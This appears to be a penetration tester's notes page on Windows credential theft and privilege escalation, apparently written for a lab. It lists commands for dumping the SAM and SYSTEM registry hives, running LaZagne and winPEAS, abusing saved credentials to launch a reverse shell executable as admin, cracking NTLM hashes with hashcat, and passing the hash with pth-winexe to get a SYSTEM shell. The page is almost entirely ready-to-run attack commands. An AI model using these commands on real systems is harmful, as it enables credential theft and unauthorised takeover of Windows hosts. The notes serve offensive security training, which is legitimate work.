 #### Reg save

```command prompt - target
reg save HKLM\SAM c:\SAM
```

```command prompt - target
reg save HKLM\System c:\System
```

[[4._File Transfers]]

```bash - kali
samdump2 -o hashes System SAM
```

![[Hashcat#NTLM]]


#### Lazagne

```
lazagne.exe all
```

#### Saved creds
1. Use winPEAS to check for saved credentials:

```command prompt - windows
.\winPEASx64.exe quiet cmd windowscreds
```

2. It appears that saved credentials for the admin user exist.

3. We can verify this manually using the following command:

```command prompt - windows
cmdkey /list
```

4. If the saved credentials aren’t present, run the following script to refresh the credential:

```command prompt - windows
C:\PrivEsc\savecred.bat
```

5. We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:

![[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

#### SAM
1. Backups of the SAM and SYSTEM files can be found in ===C:\Windows\Repair== and are readable by our user.

2. Copy the files back to Kali:

[[4._File Transfers]]

3. Download the latest version of the creddump suite:

```bash - kali
git clone https://github.com/Neohapsis/creddump7.git
```

4. Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

```bash - kali
python2 creddump7/pwdump.py SYSTEM SAM
```

5. Crack the admin user hash using hashcat:

```bash - kali
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```


#### Pass the Hash
1. Extract the admin hash from the SAM in the previous step.

2. Use the hash with pth-winexe to spawn a command prompt (empty LM hash):

```bash - kali
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```

3. Use the hash with pth-winexe to spawn a SYSTEM level command prompt:

```bash - kali
pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:$HASH' //$TARGET cmd.exe
```

